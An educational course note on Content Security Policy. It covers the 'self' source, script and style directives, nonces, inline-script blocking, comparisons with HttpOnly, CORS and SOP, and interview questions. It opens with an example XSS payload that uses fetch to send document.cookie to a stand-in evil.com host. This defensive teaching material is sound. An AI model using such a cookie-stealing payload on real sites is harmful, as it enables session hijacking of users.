


---

# Content Security Policy (CSP)

> **Module:** Browser Security
> **Day:** 3
> **Difficulty:** ⭐⭐⭐⭐☆
> **Prerequisites:** HTTP, Same-Origin Policy, XSS Basics

---

# What is Content Security Policy?

## Definition

> **Content Security Policy (CSP)** is a browser security mechanism that allows a server to define which resources (JavaScript, CSS, Images, Fonts, etc.) are allowed to load and execute.

Its primary purpose is to **reduce the impact of Cross-Site Scripting (XSS)** attacks.

---

# Why Does CSP Exist?

Imagine your application has an XSS vulnerability.

Attacker submits

```html
<script>
fetch("https://evil.com?cookie="+document.cookie)
</script>
```

Your server accidentally stores it.

Later another user visits the page.

Without CSP

```
Browser

↓

Receives HTML

↓

Executes Script

↓

Cookies Stolen
```

The browser has no idea whether the script was written by

- Developer
- Attacker

Both look identical.

---

# Browser Problem

Browser receives

```html
<script>
alert("Hacked")
</script>
```

Browser asks

```
Should I execute this?
```

Without CSP

```
YES
```

Browser executes it.

---

# Browser Engineers' Solution

Instead of guessing,

let the **server define the rules**.

The server sends

```http
Content-Security-Policy:
default-src 'self';
```

Now the browser has instructions.

---

# How CSP Works

Browser receives

```
HTML

+

CSP Policy
```

Before executing any resource,

the browser checks

```
Does this resource satisfy the policy?
```

If

```
YES
```

Execute.

Otherwise

```
Block.
```

---

# Browser Workflow



---

# CSP Header

Example

```http
Content-Security-Policy:

default-src 'self';
```

This tells the browser

```
Load resources

ONLY

from the same origin.
```

---

# What Does 'self' Mean?

Suppose the page is

```
https://bank.com
```

Then

```
'self'
```

means

```
https://bank.com
```

Resources from

```
bank.com
```

are allowed.

Resources from

```
evil.com
```

are blocked.

---

# Example

```html
<script src="https://bank.com/app.js"></script>
```

Browser

```
Current Origin

↓

bank.com

↓

Script Origin

↓

bank.com

↓

Allowed
```

---

# Another Example

```html
<script src="https://evil.com/hack.js"></script>
```

Browser

```
Current Origin

↓

bank.com

↓

Script Origin

↓

evil.com

↓

Blocked
```

---

# Inline Scripts

Example

```html
<script>

alert("Hello")

</script>
```

There is

```
NO URL

NO Origin
```

It is called

```
Inline JavaScript
```

Modern CSP blocks inline scripts by default.

---

# Why?

Browser cannot determine

whether the script came from

- Developer
- Attacker

So it blocks all inline JavaScript unless explicitly allowed.

---

# XSS With CSP

Attacker injects

```html
<script>

stealCookies()

</script>
```

Browser

```
Receive HTML

↓

Parse HTML

↓

Encounter Script

↓

CSP Check

↓

Blocked
```

The script never executes.

---

# Important

CSP does **NOT**

remove the vulnerability.

The malicious HTML

still reaches

the browser.

CSP simply prevents

execution.

---

# Browser Flow



---

# What Does CSP Protect?

Mainly

```
Cross-Site Scripting (XSS)
```

It can also reduce the impact of

- Data Injection
- Malicious Third-Party Scripts
- Clickjacking (with additional directives)
- Mixed Content (with additional directives)

---

# CSP Directives

A CSP policy consists of multiple directives.

Example

```http
Content-Security-Policy:

default-src 'self';

script-src 'self';

style-src 'self';

img-src 'self';

font-src 'self';
```

Each directive controls a different resource.

---

# script-src

Controls

```
JavaScript
```

Example

```http
script-src 'self'
```

Only JavaScript from

the same origin

may execute.

---

# style-src

Controls

```
CSS
```

Example

```http
style-src 'self'
```

---

# img-src

Controls

```
Images
```

Example

```http
img-src 'self'
```

---

# font-src

Controls

```
Fonts
```

Example

```http
font-src 'self'
```

---

# Why Modern Frameworks Work Well

React

Angular

Vue

Next.js

typically load JavaScript like

```html
<script

src="/assets/index.js">

</script>
```

External scripts work well

with strict CSP.

Inline JavaScript is generally avoided.

---

# What About Event Attributes?

Old HTML

```html
<button onclick="save()">
```

This is

```
Inline JavaScript
```

Strict CSP blocks it.

Modern React

```jsx
<button

onClick={save}

>
```

React attaches event listeners using JavaScript rather than inline HTML attributes, making it compatible with strict CSP.

---

# CSP Nonce

Sometimes developers legitimately need inline scripts.

Instead of allowing all inline scripts,

CSP supports

```
Nonce
```

A nonce is

```
Random

One-Time

Value
```

Example

Server

```http
Content-Security-Policy:

script-src

'nonce-a8f91bc2'
```

HTML

```html
<script

nonce="a8f91bc2">

console.log("Hello")

</script>
```

Browser checks

```
Nonce Matches?

↓

YES

↓

Execute
```

---

# Attacker Script

Attacker injects

```html
<script>

stealCookies()

</script>
```

Browser

```
Nonce Missing

↓

Blocked
```

---

# Even If Attacker Guesses

```html
<script

nonce="123">

stealCookies()

</script>
```

Browser

```
Expected

a8f91bc2

↓

Received

123

↓

Blocked
```

---

# CSP vs HttpOnly

CSP

```
Stops

JavaScript

From Executing
```

HttpOnly

```
Stops

JavaScript

From Reading Cookies
```

Different protections.

---

# Browser Security Layers

```
Attacker

↓

Injects Script

↓

Browser Receives HTML

↓

CSP

↓

Execute?

↓

document.cookie

↓

HttpOnly

↓

Cookie Available?
```

Multiple layers work together.

---

# CSP vs CORS

CORS

```
Controls

Who May Read

Responses
```

CSP

```
Controls

What Resources

May Execute
```

Completely different.

---

# CSP vs SOP

SOP

```
Protects

Cross-Origin Data
```

CSP

```
Protects

Against Malicious Code Execution
```

---

# Common Misconceptions

❌ CSP fixes XSS.

✅ CSP reduces the impact of XSS.

---

❌ CSP prevents malicious HTML.

✅ CSP prevents malicious JavaScript from executing.

---

❌ HttpOnly replaces CSP.

✅ They solve different problems.

---

# Interview Questions

## What is CSP?

A browser security mechanism that allows servers to define which resources the browser is allowed to load and execute.

---

## Which attack is CSP mainly designed to mitigate?

Cross-Site Scripting (XSS).

---

## Does CSP remove XSS vulnerabilities?

No.

It mitigates the impact by preventing execution of unauthorized scripts.

---

## What does 'self' mean?

Load resources only from the same origin.

---

## What is a Nonce?

A random one-time value that allows only trusted inline scripts to execute.

---

# Quick Revision

Purpose

```
Reduce

XSS Impact
```

---

Configured By

```
Server
```

---

Enforced By

```
Browser
```

---

Main Header

```
Content-Security-Policy
```

---

Protects Against

```
XSS
```

---

Allows

```
Trusted Resources
```

---

Blocks

```
Unauthorized Scripts
```

---

# Cheat Sheet

```
Browser Receives HTML

↓

Read CSP Header

↓

Encounter Script

↓

Allowed?

↓

YES → Execute

NO → Block
```

---

# Connection to Other Topics

## Same-Origin Policy

Protects cross-origin data.

---

## CSRF

Protects state-changing requests.

---

## CORS

Allows trusted cross-origin responses.

---

## HttpOnly

Protects cookies from JavaScript.

---

## XSS

CSP is one of the strongest browser defenses against XSS.

---

# Key Takeaways

- CSP is configured by the server and enforced by the browser.
- CSP defines which resources are allowed to load and execute.
- `'self'` means the same origin as the current page.
- Inline JavaScript is blocked by strict CSP unless explicitly allowed.
- CSP does not remove XSS vulnerabilities but significantly reduces their impact.
- Nonces provide a secure way to allow trusted inline scripts.
- CSP works alongside HttpOnly, SameSite, SOP, and CORS as part of the browser's layered security model.

---
